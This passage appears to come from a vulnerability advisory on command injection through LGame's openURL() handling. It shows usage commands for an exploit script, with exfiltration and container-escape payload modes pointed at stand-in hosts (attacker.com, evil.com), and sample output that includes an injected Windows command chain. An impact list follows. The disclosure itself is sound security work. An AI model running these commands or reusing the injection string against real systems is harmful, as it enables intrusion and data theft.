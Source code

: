 ```bash
python3 lgame_exploit.py -u http://ci-runner:3000 -p macos_exfil -s http://attacker.com --check-env
```

**Test Linux with advanced escape:**

```bash
python3 lgame_exploit.py -u http://127.0.0.1:8080 -p linux_escape -s http://evil.com -x http://127.0.0.1:8080
```

### Expected Output:

```
>> Starting LGame exploitation against http://game-server:8080
[*] Environment validation:
    OS: Linux 5.4.0
    Headless: Not set
    Container: Yes
    GUI Available: No (Higher exploitation success rate)
[*] Step 1: Attempting to trigger openURL() via game configuration
[*] Trying endpoint: /game/config
[+] Response from /game/config: 200
[+] Potential successful exploitation via /game/config
[+] Injected command: http://legitimate.com & echo %USERNAME%@%COMPUTERNAME% > %TEMP%\info.txt & type %TEMP%\info.txt & del %TEMP%\info.txt & rem

[+] Exploitation attempt completed.
[!] Command executed (if vulnerable): http://legitimate.com & echo %USERNAME%@%COMPUTERNAME% > %TEMP%\info.txt & type %TEMP%\info.txt & del %TEMP%\info.txt & rem
[!] Check http://attacker.com for exfiltrated data
```

## Impact

This vulnerability allows any user capable of providing URL input to LGame applications to achieve complete system compromise. The impact includes:

**Immediate System Access:**

- Arbitrary command execution with application privileges
- File system read/write access
- Network communication capabilities
- Process manipulation and monitoring

**Data Compromise:**

- Access to application configuration files and databases
- Environment variable exposure (including secrets)
- User data and game state information
- System information reconnaissance

**Persistence and Lateral Movement:**

- Installation of backdoors and persistent access mechanisms
- Creation of scheduled tasks for ongoing access
- Network reconnaissance for lateral movement
- Container escape potential in orchestrated environments
